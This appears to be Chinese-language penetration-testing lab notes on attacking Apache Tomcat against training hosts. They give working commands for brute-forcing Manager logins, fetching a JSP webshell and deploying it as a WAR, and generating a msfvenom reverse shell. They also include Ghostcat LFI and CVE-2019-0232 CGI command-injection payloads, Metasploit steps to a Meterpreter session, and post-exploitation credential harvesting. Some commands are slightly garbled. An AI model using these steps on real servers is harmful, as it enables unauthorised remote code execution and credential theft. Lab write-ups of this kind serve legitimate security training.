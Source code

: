```yaml
---
description: >-
  Apache Tomcat是一個開源 Web 伺服器，用於託管用 Java 編寫的應用程式。 Tomcat 最初設計用於執行 Java Servlets 和
  Java Server Pages (JSP) 腳本。然而，它在基於 Java 的框架中的流行度不斷提高，現在被 Spring 等框架和 Gradle
  等工具廣泛使用。根據BuiltWith收集的數據，目前有超過 22 萬個活躍的 Tomca
---
```


# Tomcat

## <mark style="color:red;">**1. 發現點**</mark>



#### 1️⃣ 確認 Tomcat 存在：

```bash
curl -s http://app-dev.inlanefreight.local:8080/docs/ | grep Tomcat
```

結果會顯示：

```
Apache Tomcat 9 (9.0.30) - Documentation Index
```

> 確認係 Tomcat 9.0.30。

## <mark style="color:red;">**2. 測試Payload**</mark>

#### 使用 gobuster 嘗試發現管理界面、隱藏路徑

```bash
gobuster dir -u http://web01.inlanefreight.local:8180/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt 
```

> 常見路徑有：`/manager/html`、`/host-manager/html`

## <mark style="color:red;">3. Tomcat Manager 爆破登入</mark>



```
[+] Username : b'tomcat'
[+] Password : b'admin'
```

成功後會回傳：

```bash
python3 mgr_brute.py -U http://web01.inlanefreight.local:8180/ -P /manager -u /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -p /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt
```

#### 方法 B：Python 自製暴力爆破腳本

```bash
python3 mgr_brute.py -U http://web01.inlanefreight.local:8180/ -P /manager -u /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -p /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt
```

成功後會回傳：

```
[+] Username : b'tomcat'
[+] Password : b'admin'
```

***

## <mark style="color:red;">4. Tomcat Manager WAR 檔案上傳取得 RCE</mark>

\
1️⃣ 製作 WAR 後門

```bash
wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
zip -r backup.war cmd.jsp
```

#### 2️⃣ 登入 Tomcat 管理界面 (http://web01.inlanefreight.local:8180/manager/html)，上傳 `backup.war`

#### 3️⃣ 存取 shell：

```bash
curl http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=id
```

> 出現 `uid=1001(tomcat)` 即成功！

***

#### ⭐ 自動化反彈 shell（msfvenom 生成 war）

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=你的IP LPORT=4443 -f war > shell.war
```

然後上傳，之後用：

```bash
bnc -lvnp 4443
```

> 執行 `/shell/cmd.jsp` 後會收到反彈 shell。

***

## <mark style="color:red;">5.Ghostcat (</mark><mark style="color:orange;">CVE-2020-1938</mark><mark style="color:red;">) — AJP 協定 LFI 漏洞</mark>

1️⃣ 檢查 8009 埠

```bash
nmap -sV -p 8009,8080 app-dev.inlanefreight.local
```

> 確認 `8009/tcp open ajp13`

2️⃣ 使用 Exploit (Python PoC)：

```bash
python2.7 tomcat-ajp.lfi.py app-dev.inlanefreight.local -p 8009 -f WEB-INF/web.xml
```

> 如果成功會回傳 `web.xml` 檔案內容。

## <mark style="color:red;">6. 攻擊 Tomcat CGI</mark> <mark style="color:orange;">CVE-2019-0232</mark>

> \
> `CVE-2019-0232`是一個嚴重的安全問題，可能導致遠端執行程式碼。此漏洞影響啟用了`enableCmdLineArguments`功能的 Windows 系統。攻擊者可以透過利用 Tomcat CGI Servlet 輸入驗證錯誤導致的命令注入缺陷來利用此漏洞，從而允許他們在受影響的系統上執行任意命令。 Tomcat 的`9.0.0.M1`至`9.0.17`至`8.5.0`和`7.0.0`至`7.0.93` `8.5.39`均受到影響。

{% hint style="info" %}
CGI Servlet 是 Apache Tomcat 的重要元件，它使 Web 伺服器能夠與 Tomcat JVM 以外的外部應用程式進行通訊。這些外部應用程式通常是用 Perl、Python 或 Bash 等語言編寫的 CGI 腳本。 CGI Servlet 接收來自 Web 瀏覽器的請求並將其轉發給 CGI 腳本進行處理。
{% endhint %}

<details>

<summary>網站使用 CGI 腳本的原因有很多，但使用它們也有一些相當大的缺點：</summary>

| **優點**                     | **缺點**                       |
| -------------------------- | ---------------------------- |
| 它對於產生動態網頁內容來說簡單而有效。        | 由於必須為每個請求將程式載入到記憶體中，因此會產生開銷。 |
| 使用任何可以從標準輸入讀取並寫入標準輸出的程式語言。 | 在頁面請求之間無法輕鬆地在記憶體中快取資料。       |
| 可以重複使用現有程式碼並避免編寫新程式碼。      | 它降低了伺服器的效能並消耗了大量的處理時間。       |

</details>

{% stepper %}
{% step %}
### 列舉

```shell-session
nmap -p- -sC -Pn 10.129.204.227 --open 
```
{% endstep %}

{% step %}
**目錄與擴展名模糊測試 (Fuzzing)**

`.cmd`

```bash
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.cmd
```

`.bat`

```bash
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.bat
```

➡️ 你成功發現有 `welcome.bat` 可以利用
{% endstep %}

{% step %}
### 開發 CVE-2019-0232(Tomcat CGI RCE)(方法一)

* 你測試直接執行失敗，Tomcat 報錯有非法字元
* 你成功找到繞過方法 → URL 編碼 `%3A`、`%5C`
* 這個漏洞是 Tomcat Windows 系統在執行 CGI script 時，可以透過 `&` 參數 + 絕對路徑執行任意程式。

成功測試 URL payload 應該如下：

```http
# http://10.129.204.227:8080/cgi/welcome.bat?&set
```

```
http://10.129.204.227:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe
```

如果這樣成功，你會在頁面上回傳 `whoami` 執行結果
{% endstep %}

{% step %}
### **🚀 2. 測試 Metasploit(方法2)**

#### **📌 啟動 Metasploit 並設置攻擊模組**

```bash
msfconsole -q
use exploit/windows/http/tomcat_cgi_cmdlineargs
```

**此模組默認使用 `windows/meterpreter/reverse_tcp` 作為 payload。**

#### **📌 設置必要參數**

```bash
et RHOSTS 10.129.201.89
set TARGETURI /cgi/cmd.bat
set LHOST tun0
set FORCEEXPLOIT true
```

* `RHOSTS`：目標 IP (10.129.201.89)
* `TARGETURI`：Tomcat CGI 路徑 (`/cgi/cmd.bat`)
* `LHOST`：本地 VPN 介面 (`tun0`)
* `FORCEEXPLOIT`：強制執行漏洞利用 (`true`)

#### **📌 執行攻擊**

```bash
exploit
```

**成功建立 `Meterpreter` 連線**

```bash
[*] Meterpreter session 1 opened (10.10.14.45:4444 -> 10.129.201.89:49688)
```

***

### **🎯 3. 讀取 `flag.txt`**

```bash
cat C:/Users/Administrator/Desktop/flag.txt
```

💡 **成功獲取 Flag！**
{% endstep %}
{% endstepper %}



***

## <mark style="color:red;">7. 連鎖漏洞</mark>

| 漏洞點               | 行動                                                                   |
| ----------------- | -------------------------------------------------------------------- |
| 取得 Tomcat shell 後 | 嘗試使用 `sudo -l` 檢查提權，或利用 crontab 任務提權；或檢查 Tomcat 設定檔案是否洩露更多憑證。        |
| Ghostcat LFI      | 可用來讀取 Tomcat webapp 裏面的敏感配置檔案，可能有 hardcoded 密碼 / 數據庫憑證。              |
| Shell 提權          | 在 shell 裏面 `find / -perm -4000 -type f`、`sudo -l` 或試試 `pspy` 分析定時任務。 |
| 密碼回收              | `cat /opt/*`、`cat /var/lib/tomcat*/conf/*` 常見存有憑證或配置檔案。              |
| 內網掃描              | `netstat -anp`、`nmap -sP`、`arp -a` 尋找其他內網服務或橫向滲透機會。                  |
